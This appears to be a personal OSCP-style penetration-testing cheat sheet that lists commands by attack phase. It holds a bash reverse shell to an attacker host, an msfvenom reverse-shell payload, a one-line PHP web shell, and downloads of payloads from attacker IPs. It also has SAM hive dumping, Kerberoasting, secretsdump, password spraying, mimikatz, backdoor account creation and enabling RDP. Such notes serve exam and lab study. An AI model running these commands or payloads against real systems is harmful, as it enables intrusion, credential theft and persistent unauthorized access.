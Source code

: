 # Reconnaissance

nmap -p- -sV IP
sudo nmap -p- -sSU IP

sh  ~/tools/Enum/nmapAutomator.sh --host <IP> -t all

searchsploit

Google: service version exploit github

nikto -h http://URL

```
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
```

curl -v http://

ftp: anonymous connection
ftp IP

smbclient -L //<RHOST>/ -N

Ping sweep with bash:
```
#Host scan:
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

#Port scan:
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

# Reverse shell

https://www.revshells.com/

bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1


rlwrap nc -nvlp 6666

msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai


# Web exploitation

dirsearch -u http://

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<RHOST>/
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://<RHOST>/ -x php
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://<RHOST>/ -x php,txt,html,js -e -s 200
```

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fs <NUMBER> -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fw <NUMBER> -mc all
ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt
```

feroxbuster -u http://IP -w $DIRMEDIUM -x php,txt,html

PHP shell:
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`

# File transfer

`certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>`

`Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>`

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:800/file.exe','file.exe')

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```

Impacket smbserver.py:
smbserver.py share -smb2support . -username "peon" -password "peon"
smbserver.py share -smb2support .

On the Windows host:
```
# Set the credential
$pass = ConvertTo-SecureString 'peon' -AsPlainText -Force
$pass
$cred = New-Object System.Management.Automation.PSCredential('peon', $pass)
$cred

# Connect to the SMB server
New-PSDrive -Name peon -PSProvider FileSystem -Credential $cred -Root \\IP\smbfolder

# Access the share
cd peon
dir
```

# Privilege escalation

systeminfo
whoami /all
net users
net users <USERNAME>
tasklist /SVC
sc query
sc qc <SERVICE>
netsh firewall show state

Check the others directories

net user <USERNAME> <PASSWORD> /add /domain
net group "Exchange Windows Permissions" /add <USERNAME>
net localgroup "Remote Management Users" /add <USERNAME>

Enable RDP:
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes

Privileges on Windows:
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Dumpt SAM password hash and try to crack it:
reg save hklm\system C:\Users\<USERNAME>\system.hive
reg save hklm\sam C:\Users\<USERNAME>\sam.hive

Import-Module .\<FILE>

Linux

id
sudo -l
uname -a
cat /etc/hosts
cat /etc/fstab
cat /etc/passwd
ss -tulpn
ps -auxf
ls -lahv
ls -R /home
ls -la /opt
env

find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 2>/dev/null | xargs ls -la

# Active directory

net user /domain
net group /domain
net view /domain

Check for passwords stored

Check for hash or tickets.

Check with Bloodhound if nothing else is find

Kerberoasting:
impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request

Secretsdump:
secretsdump.py <domain>/<user>:<password>@<IP>

Powerview:
Import-Moduel .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetGroup
Get-NetComputer
Get-NetSession -ComputerName files04 -Verbose
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-ObjectAcl -Identity <user>
Convert-SidToName <sid/objsid>

crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success
kerbrute passwordspray -d corp.com .\usernames.txt "pass"

Pass the ticket
mimikatz

Golden ticket
mimikatz

# Pivoting/Port Forwarding

cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

./chisel server -p 9002 -reverse -v
./chisel client <RHOST>:9002 R:9003:127.0.0.1:8888

ssh user@<RHOST> -oKexAlgorithms=+diffie-hellman-group1-sha1

ssh -R 8080:<LHOST>:80 <RHOST>
ssh -L 8000:127.0.0.1:8000 <USERNAME>@<RHOST>
ssh -N -L 1234:127.0.0.1:1234 <USERNAME>@<RHOST>

ssh -L 80:<LHOST>:80 <RHOST>
ssh -L 127.0.0.1:80:<LHOST>:80 <RHOST>
ssh -L 80:localhost:80 <RHOST>

Proxies:
ssh -D 1337 user@172.16.0.5 -fN

sshuttle -r USERS@10.11.1.251 10.1.1.0/24
sshuttle -r USER@MACHINE_IP 0.0.0.0/0

psexec.py <domain>/<user>:<password1>@<IP>
psexec.py -hashes

# Interactive shell

```bash
# In reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

# For zsh
# Use rlwrap for setting the listener
$ rlwrap nc -lvnp 

# Use python to get a bash
ctrl + z
# Type in one line
$ stty size;stty raw -echo;fg

# Then
$ stty rows ROWS cols COLS
$ export TERM=xterm-256color
$ exec /bin/bash
```

# Useful Ressources

https://github.com/xsudoxx/OSCP

https://github.com/0xsyr0/OSCP

https://github.com/brianlam38/OSCP-2022/blob/main/cheatsheet-active-directory.md